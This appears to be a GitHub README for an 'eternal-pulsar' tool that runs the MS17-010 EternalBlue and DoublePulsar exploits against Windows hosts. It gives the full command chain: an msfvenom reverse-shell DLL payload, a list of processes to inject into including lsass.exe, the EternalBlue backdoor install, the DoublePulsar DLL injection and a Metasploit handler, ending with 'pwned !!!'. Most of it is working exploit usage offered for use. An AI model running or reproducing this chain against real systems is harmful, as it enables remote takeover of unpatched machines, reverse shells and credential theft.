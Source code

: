 # Eternal-pulsar (ms17-010)

Eternalblue-Doublepulsar without Metasploit and Python <br> 
base on shadowbroker's exploit (fuzzbunch)
- you can run it on windows or linux (need wine)


### Create payload with msfveom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>

### EternalBlue & Doublepulsar  (--help )

[help.txt](https://github.com/sailay1996/eternal-pulsar/blob/master/help.txt)


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 - -GroomAllocations 12 --OutConfig 1.txt` <br>

![test1](https://github.com/sailay1996/eternal-pulsar/blob/master/img/2.jpg)


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`
<br>
![test2](https://github.com/sailay1996/eternal-pulsar/blob/master/img/1.jpg)

### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!
![test3](https://github.com/sailay1996/eternal-pulsar/blob/master/img/3.jpg)

Thanks for watching here !!!
<br><br>
#### [@404death](https://twitter.com/404death)
